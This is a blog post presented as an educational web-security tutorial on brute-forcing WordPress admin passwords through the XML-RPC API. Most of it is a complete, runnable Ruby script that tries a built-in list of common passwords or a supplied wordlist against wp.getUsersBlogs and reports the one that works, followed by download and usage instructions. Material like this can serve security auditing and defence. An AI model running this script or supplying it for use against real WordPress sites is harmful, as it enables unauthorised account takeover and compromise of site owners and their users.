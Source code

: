 ```yaml
---
title: "Wordpress brute force password attack using XML-RPC API"
date: 2017-05-14 17:12
comments: true
categories:
  - Web Security
tags:
  - Wordpress
description: wordpress attack, wordpres password brute force, wordpress xmlrpc api, wordpress hacking
keywords: wordpress hacking, wordpress brute force, attacking wordpress, wordpress xmlrpc api, web hacking, wordpress information gathering, wordpress security, wordpress auditing
sharing: true
---
```

<img src="/assets/images/wordpress-hacking.png"/> 

#### All code and information for educational purposes only

Starting a series of posts about web security, which also a passion of mine besides development.  
The first published post on this topic about getting admin password for wordpress using [XML-RPC API](https://codex.wordpress.org/XML-RPC_WordPress_API/Users) and brute force attack. Second choice may be a direct brute force attack via post form on 'wp-login.php' which may be more complex during
'Account Lockout Policy' and other things, which I will cover in other post.

<!-- more -->

#### What is XML-RPC?
The XML-RPC is an API that enables developers create WordPress ‘apps’ (like clients, plugins and themes), that allow you to make remote HTTP requests to your WordPress site...[(link to full article)](https://blogvault.net/how-xml-rpc-affects-wordpress-security/)  
The simplest way to check if XML-RPC API enabled(default) in your wordpress is by open your browser and entering something like http://127.0.0.1:8080/xmlrpc.php, if response you see is 'XML-RPC server accepts POST requests only.', XML-RPC API enabled. 

#### Other great tools for wordpress password brute force ####
[WPScan](https://wpscan.org/) - great tool for wordpress information gathering and password brute force  
[Nmap with http-wordpress-brute script](https://nmap.org/nsedoc/scripts/http-wordpress-brute.html) - performs brute force password auditing against Wordpress CMS/blog installations.

#### Let's do it ####
Let's start to build simple script which will find admin password for wordpress using dictionary, I am using simple [sucuri dictionary](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt) as default for out brute force attack.  
We will use ['wp.getUsersBlogs'](https://codex.wordpress.org/XML-RPC_wp) method for our purposes, to retrieve the blogs of the users. This method receives username and password and returns array of values. In case of success we getting array with user's info, otherwise xmlrpc call throws exception, see the code below to understand better.


Our script will use [xml-rpc client for ruby](https://ruby-doc.org/stdlib-2.3.1/libdoc/xmlrpc/rdoc/XMLRPC/Client.html)


#### wp_find_password.rb script
``` ruby 
#!/usr/bin/env ruby
# encoding: UTF-8

require 'optparse'
require 'xmlrpc/client'
require 'uri'


def wp_find_password(options)
  # https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt
  passwords = %w(admin 123456 password 12345678 typhoon 666666 111111 1234567 qwerty
                 siteadmin qwerty siteadmin administrator root 123123 123321
                 1234567890 letmein123 test123 demo123 pass123 123qwe qwe123 654321 loveyou adminadmin123)

  uri = URI(options[:url])
  server = XMLRPC::Client.new(uri.host, uri.path, uri.port)
  server.http_header_extra = {'accept-encoding' => 'identity'}
  
  if options[:wordlist] != 'default'
    passwords = File.readlines(options[:wordlist])
    passwords.collect! {|s| s.chomp}
  end
  
  passwords.each do |password|
    begin
      response = server.call("wp.getUsersBlogs", options[:username], password)
      if response
        puts "--- Success: PASSWORD: #{password} for username: #{options[:username]} ---\n"
        break;
      end
    rescue XMLRPC::FaultException => e
      puts "Wrong password: #{password} for username: #{options[:username]}, response code #{e.faultCode}\n"
    end
  end
end

options = {:url => 'http://127.0.0.1:8080/wordpress/xmlrpc.php', :username => 'admin', :wordlist => 'default'}

OptionParser.new do |opts|
  opts.banner = "Usage: wp_find_password.rb [options]"
  opts.on('--username username', 'Username, default: admin') do |username|
    options[:username] = username
  end

  opts.on('--url url', 'Url, default: http://127.0.0.1/wordpress/xmlrpc.php') do |url|
    options[:url] = url
  end

  opts.on('--wordlist wordlist', 'Word List, default: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Sucuri_Top_Wordpress_Passwords.txt') do |wordlist|
    options[:wordlist] = wordlist
  end

  opts.on('-h', '--help', 'Displays Help') do
    puts opts
    exit
  end
end.parse!

wp_find_password(options)
``` 

You may download this script [here](https://github.com/warolv/wordpress-scripts)

Usage example: wp_find_password.rb --url 127.0.0.1:8080/wordpress/xmlrpc.php  --wordlist /Users/your-user/Downloads/wordlist.txt --username admin

Options:
Usage: wp_find_password.rb [options]
        --username username          Username, default: admin
        --url url                    Url, default: http://127.0.0.1/wordpress/xmlrpc.php
        --wordlist wordlist          Dictionary
    -h, --help                       Displays Help